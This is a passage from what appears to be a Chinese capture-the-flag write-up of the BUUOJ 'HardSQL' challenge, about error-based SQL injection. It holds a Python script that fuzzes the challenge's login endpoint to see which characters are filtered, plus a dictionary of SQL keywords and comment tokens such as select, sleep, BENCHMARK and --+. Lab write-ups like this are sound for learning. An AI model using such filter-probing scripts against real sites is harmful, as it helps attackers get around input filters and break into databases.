 # HardSQL

[题目地址](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]HardSQL)

这竟然是我第一次遇见报错注入。随便输了个“万能密码”，显示被过滤了。是时候给自己找个[fuzz测试脚本](https://blog.csdn.net/mochu7777777/article/details/108073359)了。

```python
import requests
METHOD='get'
URL="http://de8226be-4321-4e1a-87bc-6c37a470b317.node4.buuoj.cn:81/check.php?username={0}&password=a"
FILTER="你可别被我逮住了，臭弟弟"
with open("./fuzz.txt",'r') as f:
    sql_char=f.read().split('\n')
for char in sql_char:
    if METHOD=='get':
        url=URL.format(char)
        res = requests.get(url)
    if FILTER in res.text:
        print("该字符是非法字符: {0}".format(char))
    else:
        print("通过: {0}".format(char))
```

附赠fuzz字典。

```
length 
Length
+
handler
like
LiKe
select
SeleCT 
sleep
SLEEp
database
DATABASe
delete
having
or
oR
as
As
-~
BENCHMARK
limit
LimIt
left
Left
select
SELECT
insert
insERT
INSERT
right
#
--+
INFORMATION
--
;
!
%
```